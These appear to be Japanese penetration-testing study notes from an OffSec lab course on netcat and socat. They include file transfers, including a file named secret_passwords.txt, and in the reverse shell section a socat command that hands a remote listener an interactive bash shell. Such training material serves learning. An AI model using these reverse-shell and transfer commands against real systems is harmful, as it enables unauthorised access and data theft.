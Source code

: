### ファイルの受け渡し(netcat)
```
受信側
C:\Users\offsec> nc -nlvp 4444 > incoming.exe
listening on [any] 4444 ...

送信側
kali@kali:~$ locate wget.exe
/usr/share/windows-resources/binaries/wget.exe
kali@kali:~$ nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
```

## Socat
### Netcat vs Socat
```
kali@kali:~$ nc <remote server's ip address> 80
kali@kali:~$ socat - TCP4:<remote server's ip address>:8
```

### ファイルの転送
```
送信側
kali@kali:~$ sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt

受信側
C:\Users\offsec> socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
C:\Users\offsec> type received_secret_passwords.txt
"try harder!!!"
```

### reverse shell
```
待ち受け側
C:\Users\offsec> socat -d -d TCP4-LISTEN:443 STDOUT
... socat[4388] N listening on AF=2 0.0.0.0:443

接続側
kali@kali:~$ socat TCP4:10.11.0.22:443 EXEC:/bin/bash
```
### socatの通信暗号化
#### openssl
・req: 新しい証明書署名要求を開始
・-newkey: 新しい秘密鍵を生成 
・rsa:2048：2,048ビットの鍵長でRSA暗号を使用
・-nodes：パスフレーズ保護なしで秘密鍵を保存
・-keyout: 鍵をファイルに保存
・-x509：証明書要求の代わりに自己署名証明書を出力
・-days：有効期間を日単位で設定
・-out: 証明書をファイルに保存
